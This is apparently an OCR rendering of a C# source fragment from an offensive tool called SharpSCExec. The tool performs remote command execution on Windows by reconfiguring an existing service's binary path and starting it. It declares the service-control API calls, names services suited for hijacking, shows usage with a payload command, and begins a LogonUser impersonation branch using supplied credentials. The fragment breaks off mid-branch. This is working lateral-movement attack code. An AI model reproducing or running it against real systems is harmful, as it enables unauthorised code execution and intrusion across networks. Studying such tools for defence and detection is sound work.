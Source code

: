 ```csharp

        [DllImport("advapi32.dll", EntryPoint = "ChangeServiceConfig")]
        [return: MarshalAs(UnmanagedType.Bool)]
        public static extern bool ChangeServiceConfigA(IntPtr hService, uint dwServiceType, int dwStartType, int dwErrorControl, string lpBinaryPathName, string lpLoadOrderGroup, string lpdwTagId, string lpDependencies, string lpServiceStartName, string lpPassword, string lpDisplayName);

        [DllImport("advapi32", SetLastError = true)]
        [return: MarshalAs(UnmanagedType.Bool)]
        public static extern bool StartService(IntPtr hService, int dwNumServiceArgs, string[] lpServiceArgVectors);

        [DllImport("kernel32.dll")]
        public static extern uint GetLastError();

        [StructLayout(LayoutKind.Sequential)]
        public class QueryServiceConfigStruct
        {
            [MarshalAs(System.Runtime.InteropServices.UnmanagedType.U4)]
            public UInt32 dwServiceType;
            [MarshalAs(System.Runtime.InteropServices.UnmanagedType.U4)]
            public UInt32 dwStartType;
            [MarshalAs(System.Runtime.InteropServices.UnmanagedType.U4)]
            public UInt32 dwErrorControl;
            [MarshalAs(System.Runtime.InteropServices.UnmanagedType.LPWStr)]
            public String lpBinaryPathName;
            [MarshalAs(System.Runtime.InteropServices.UnmanagedType.LPWStr)]
            public String lpLoadOrderGroup;
            [MarshalAs(System.Runtime.InteropServices.UnmanagedType.U4)]
            public UInt32 dwTagID;
            [MarshalAs(System.Runtime.InteropServices.UnmanagedType.LPWStr)]
            public String lpDependencies;
            [MarshalAs(System.Runtime.InteropServices.UnmanagedType.LPWStr)]
            public String lpServiceStartName;
            [MarshalAs(System.Runtime.InteropServices.UnmanagedType.LPWStr)]
            public String lpDisplayName;
        };

        static void Main(string[] args)
        {
            string target = args[0];
            string svcName = args[1]; // Potential candidates are: XblAuthManager, SensorService, BTAGService, lfsvc
            string payload = args[2];

            if (args.Length < 3)
            {
                Console.WriteLine("Usage: SharpSCExec.exe <TARGET> <SERVICE> <PAYLOAD>");
                Console.WriteLine("Example: SharpSCExec.exe SRV01 SensorService \"cmd.exe /c ping -n 2 10.10.13.37\"");
                return;
            }

            if (args.Length > 3)
            {
                string domain = args[3];
                string username = args[4];
                string password = args[5];
                IntPtr hToken = IntPtr.Zero;
                if (!LogonUser(username, domain, password, 0x9, 0, out hToken))
                {
                    Console.WriteLine($"[-] LogonUser failed: {GetLastError()}");
                    Environment.Exit(0);
```